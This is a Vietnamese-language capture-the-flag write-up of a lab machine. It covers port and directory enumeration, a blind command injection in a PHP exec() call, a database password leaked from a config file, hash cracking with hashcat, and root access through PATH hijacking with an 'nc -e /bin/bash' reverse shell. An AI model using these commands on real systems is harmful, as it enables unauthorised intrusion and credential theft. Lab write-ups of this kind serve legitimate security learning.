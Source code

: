 # ENUMURATE

sai nmap de scan port nao dang mo tren server 

``` nmap -T4 -sC -sV -Pn 10.10.11.104 -oN nmap.txt```

2 port dang mo la 22 (ssh) va 80(http) webserver dang su dung la apache

sai gobuter de brute thu muc 


``` gobuster dir -u http://10.10.11.104/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x "php" ```

```
  /index.php            (Status: 302) [Size: 2801] [--> login.php]
  /download.php         (Status: 302) [Size: 0] [--> login.php]   
  /login.php            (Status: 200) [Size: 2224]                
  /files.php            (Status: 302) [Size: 4914] [--> login.php]
  /header.php           (Status: 200) [Size: 980]                 
  /nav.php              (Status: 200) [Size: 1248]                
  /footer.php           (Status: 200) [Size: 217]                 
  /css                  (Status: 301) [Size: 310] [--> http://10.10.11.104/css/]
  /status.php           (Status: 302) [Size: 2968] [--> login.php]              
  /js                   (Status: 301) [Size: 309] [--> http://10.10.11.104/js/] 
  Progress: 2168 / 415288 (0.52%)                                              
  /logout.php           (Status: 302) [Size: 0] [--> login.php]                 
  /accounts.php         (Status: 302) [Size: 3994] [--> login.php]              
  /config.php           (Status: 200) [Size: 0]              

```



# EXPLOIT

su dung curl de tao acc 

``` curl -XPOST http://10.10.11.104/accounts.php -d "username=d47&password=d47&confirm=d47" ```

login vao

co file backup.zip => download => doc source => file logs.php co loi blind command injection

``` $output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}"); ```

tao mot reverse shell 

nhung ko co quyen de doc file user.txt, nen can phai dang nhap vao voi quyen m4lwhere 

cho file config.php => co chua username vs password => connect vao mysql 

mysql -u root -p (password trong file config)

tim duoc password cua m4lwhere o trong database 

$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.

crack password cua m4lwhere sai hashcat
hashcat -m 500 -a 0 -o cracked.txt hash /usr/share/wordlists/rockyou.txt
```
  -m: loai hash dung de crack
  -a : loai attack 0, co nghia la su dung dictionary attack
  -o: output cua password da duoc crack
```

password: ilovecody112235!

nmap ban dau ta biet duoc la co 2 port dang mo la ssh, http , lay username, password login vao

user.txt => dc1e07036f5db6e73dcca8b99e820885

loi dung path injection de leo quyen thanh root

ta thay trong file script no dang su dung lenh la gzip, date => co the chon 1 trong 2 de leo quyen root

ta su dung date de tao reverse shell de chiem quyen root
```
  b1: cd /tmp => echo "nc -e /bin/bash if port" > date
  b2: cap quyen thuc thi cho file: chmod +x date
  b3: dua path cua file date vao $PATH : export PATH:/tmp:$PATH
  b4: sudo file_script => chiem duoc quyen root 
```

root.txt => e85ef00100f1c552535b5123979535bb
